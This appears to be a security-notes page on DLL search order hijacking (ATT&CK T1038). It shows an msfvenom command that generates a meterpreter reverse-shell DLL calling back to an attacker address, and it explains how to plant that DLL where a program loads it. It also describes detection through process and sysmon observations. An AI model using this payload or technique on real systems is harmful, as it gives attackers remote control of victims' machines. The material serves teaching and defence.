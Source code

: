 ```yaml
---
description: 'DLL Search Order Hijacking for privilege escalation, code execution, etc.'
---
```


# T1038: DLL Hijacking

## Execution

Generating a DLL that will be loaded and executed by a vulnerable program which will give as a meterpreter shell:

{% code-tabs %}
{% code-tabs-item title="attacker@kali" %}
```bash
msfvenom -p windows/meterpreter/reverse_tcp LHOST=10.0.0.5 LPORT=443 -f dll > evil-meterpreter64.dll
```
{% endcode-tabs-item %}
{% endcode-tabs %}

As an example of this technique, we try launching the `CFF Explorer.exe` program installed on the victim host which attempts to load `CFF Explorer Enu.dll` from the location the program is installed. The result -  the DLL cannot be loaded \(note the NAME NOT FOUND\) as the DLL does not exist:

![](../.gitbook/assets/dll-missing.png)

Luckily for the attacker, the location in which the DLL is being looked for - is world writable! The `evil-meterpreter64.dll` is now moved to `C:\Program Files\NTCore\Explorer Suite` and renamed to `CFF ExplorerENU.dll` 

![](../.gitbook/assets/dll-moved.png)

Launching the program again gives different results - DLL is found \(SUCCESS\):

![](../.gitbook/assets/dll-success.png)

which is good news for the attacker:

![](../.gitbook/assets/dll-shell.png)

## Observations

On the victim system, we can only see rundll32 with no parent process associated and with an established connection - this should raise your suspicion immediately:

![](../.gitbook/assets/dll-rundll.png)

Looking at the rundll32 image info, we can see the current directory, which is helpful:

![](../.gitbook/assets/dll-noparent.png)

Looking at the sysmon logs gives a better view of what happened - CFF Explorer.exe was started as a process `4856` which then kicked off a rundll32 \(`1872`\) which then established a connection to 10.0.0.5:

![](../.gitbook/assets/dll-logs.png)

{% embed data="{\"url\":\"https://attack.mitre.org/wiki/Technique/T1038\",\"type\":\"link\",\"title\":\"DLL Search Order Hijacking - ATT&CK for Enterprise\"}" %}

{% embed data="{\"url\":\"https://pentestlab.blog/2017/03/27/dll-hijacking/\",\"type\":\"link\",\"title\":\"DLL Hijacking\",\"description\":\"In Windows environments when an application or a service is starting it looks for a number of DLL’s in order to function properly. If these DLL’s doesn’t exist or are implemented …\",\"icon\":{\"type\":\"icon\",\"url\":\"https://s1.wp.com/i/favicon.ico\",\"aspectRatio\":0},\"thumbnail\":{\"type\":\"thumbnail\",\"url\":\"https://pentestlab.files.wordpress.com/2017/03/generating-malicious-dll.png\",\"width\":726,\"height\":200,\"aspectRatio\":0.27548209366391185}}" %}

  


